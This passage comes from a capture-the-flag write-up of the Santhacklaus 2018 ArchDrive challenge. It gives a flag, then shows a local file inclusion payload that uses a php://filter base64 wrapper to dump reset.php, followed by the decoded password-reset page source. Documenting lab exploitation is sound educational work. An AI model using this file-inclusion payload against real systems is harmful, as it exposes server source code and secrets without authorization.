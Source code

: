 ### Flag

> IMTLD{Th1s_iS_4n_ImP0rt4nT_uS3r}

## ArchDrive 2/3

### Statement


![](/lib/images/writeups/2018_santhacklaus/archdrive/statement_archdrive2.png)


### State of the art

Ok, we got a __Local file inclusion__, let's try to use the base64 php wrapper (go on payload all the things):

> https://archdrive.santhacklaus.xyz/?page=pHp://FilTer/convert.base64-encode/resource=reset.php

It gives me some base64 data, here is the decoded data:

```php
<?php session_start(); ?>
<!DOCTYPE html>
<html lang="en">
<head>
<title>Reset Your Password</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="icon" type="image/png" href="images/icons/favicon.ico"/>
<link rel="stylesheet" type="text/css" href="vendor/bootstrap/css/bootstrap.min.css">
<link rel="stylesheet" type="text/css" href="fonts/font-awesome-4.7.0/css/font-awesome.min.css">
<link rel="stylesheet" type="text/css" href="fonts/iconic/css/material-design-iconic-font.min.css">
<link rel="stylesheet" type="text/css" href="vendor/animate/animate.css">
<link rel="stylesheet" type="text/css" href="vendor/css-hamburgers/hamburgers.min.css">
<link rel="stylesheet" type="text/css" href="vendor/animsition/css/animsition.min.css">
<link rel="stylesheet" type="text/css" href="vendor/select2/select2.min.css">
<link rel="stylesheet" type="text/css" href="vendor/daterangepicker/daterangepicker.css">
<link rel="stylesheet" type="text/css" href="css/util.css">
<link rel="stylesheet" type="text/css" href="css/main.css">
</head>
<body>
<div class="limiter">
    <div class="container-login100">
        <div class="wrap-login100">
            <form class="login100-form validate-form" method="post" action="?page=reset.php">
<span class="login100-form-title p-b-48">
<a href="index.php"><img class="logo-brand" src="images/archdrive-color.png" alt="ArchDrive logo"></a>
</span>
<span class="login100-form-title p-b-26">
ArchDrive
</span>
<p class="login100-form-title" style="font-size: 24px">Reset My Password</p></br>

<?php
    if(isset($_POST['recover']))
    {
    ?>
<p>Email sent !</p>
<?php
    }
    ?>


```